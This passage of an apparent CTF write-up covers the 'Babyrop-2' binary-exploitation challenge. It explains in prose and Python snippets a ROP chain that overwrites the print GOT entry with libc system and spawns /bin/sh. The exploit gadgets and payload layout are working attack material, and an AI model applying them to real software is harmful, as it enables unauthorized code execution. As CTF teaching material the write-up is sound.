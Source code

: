 
After set rbx and rbp values. Next phase updating the print GOT (0x404010) from 0x0x7ffff7e2ee21 to 0x7ffff7e03750.

> Re- Set rbx difference between system and libc_pop_rbx
> Re- Set rbp to 0x40404d
> Add ebx to RBP 

```python
        PRINT_CALL, # rerun for rax=r14=0
        0,
        0,
        SYSTEM-LIBC_POP_RBX, # new rbx
        0, # new r12
        0, # new r13
        0, # new r14
        0, # new r15
        0x404010+0x3d, # new rbp
        ADD_RPBs0x3d_EBX,
```


![0186a9a56b6c08d15a62f54996ccde77.png](/images/SmileyCTF/SmileyCTF-Babyrop-2/0186a9a56b6c08d15a62f54996ccde77.png)

The rest is simple. Preparing rbp-0x20 to `/bin/sh\0` and than call the `__libc_system` via print. Since we don't control over the rsi but the content of rsi doesn't bother the execution in this case.


```python
        ADD_RSP_8, # skip over /bin/sh
        0x0068732f6e69622f, # /bin/sh\0
        RET,
        RET,
        MOV_RBP_RSP_poprcx,
        0,
        PRINT_CALL
```
